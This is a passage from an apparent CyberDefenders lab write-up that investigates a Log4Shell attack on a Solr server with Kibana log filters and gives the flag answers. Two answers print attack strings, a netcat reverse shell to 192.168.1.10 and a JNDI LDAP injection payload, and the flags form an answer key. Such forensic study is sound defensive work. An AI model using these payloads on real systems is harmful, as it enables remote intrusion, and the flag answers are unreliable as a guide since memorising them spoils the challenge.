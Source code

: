 ![image](https://github.com/LegendofLightning/CyberDefenders/assets/66300601/625aacbd-bcaa-4a82-8d4d-4922a9be2a42)

**Flag 19: nc -e /bin/bash 192.168.1.10 9999**

## 20. From the previous three questions, you may remember a famous java vulnerability. What is it?

**Flag 20: Log4Shell**

## 21. What is the entire log file path of the "solr" application?

Filter: `solr and file.path:*.log`

![image](https://github.com/LegendofLightning/CyberDefenders/assets/66300601/5b77c6aa-c325-46d4-9a4a-6e22e9598e17)

**Flag 21: /var/solr/logs/solr.log**

## 22. What is the path that is vulnerable to log4j?

For Q22 & Q23: Filter: `log.file.path:*solr*`

![image](https://github.com/LegendofLightning/CyberDefenders/assets/66300601/9c8401ef-2409-4a2a-954a-8f107ab3ddef)

**Flag 22: /admin/cores**

## 23. What is the GET request parameter used to deliver log4j payload?

![image](https://github.com/LegendofLightning/CyberDefenders/assets/66300601/de78bb48-6ecb-4b5f-9a8c-7d0ac82f18da)

**Flag 23: foo**

## 24. What is the JNDI payload that is connected to the LDAP port?

Filter: `log.file.path : *solr* and message:*ldap*`

![image](https://github.com/LegendofLightning/CyberDefenders/assets/66300601/6a6ccab3-3c8f-4eb2-bafa-e48ba7b4a23f)

**Flag 24: {foo=${jndi:ldap://192.168.1.10:1389/Exploit}}**
















